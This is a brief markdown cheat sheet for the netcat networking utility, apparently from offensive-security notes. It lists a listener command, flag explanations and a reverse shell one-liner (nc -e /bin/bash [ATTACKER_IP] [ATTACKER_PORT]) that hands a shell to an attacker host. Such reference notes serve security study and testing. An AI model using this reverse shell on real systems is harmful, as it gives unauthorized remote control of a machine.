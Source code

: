 ```yaml
---
title: NETCAT
summary: A featured networking utility which reads and writes data across network connections.
description: A featured networking utility which reads and writes data across network connections.
---
```


**[http://netcat.sourceforge.net/](http://netcat.sourceforge.net/)**

## Listener


 > 
 > **<font color=red>nc -lvnp</font> \[ATTACKER_PORT\]**</br>
 > Open a listener on delected port.

## Reverse Shell


 > 
 > **<font color=red>nc -e /bin/bash</font> \[ATTACKER_IP\] \[ATTACKER_PORT\]**</br>
 > Reverse shell. 

## Flags


 > 
 > **<font color=red>-l</font>**</br>
 > Listener mode.
 > 
 > **<font color=red>-k</font>**</br>
 > Keep listening after client disconnects.
 > 
 > **<font color=red>-n</font>**</br>
 > No DNS (no more "unknown host").
 > 
 > **<font color=red>-v</font>**</br>
 > Verbose.
 > 
 > **<font color=red>-p</font> 2112**</br>
 > Port.
 > **<font color=red>-z</font>**</br>
 > Netcat will not send data (scan for listening daemons).
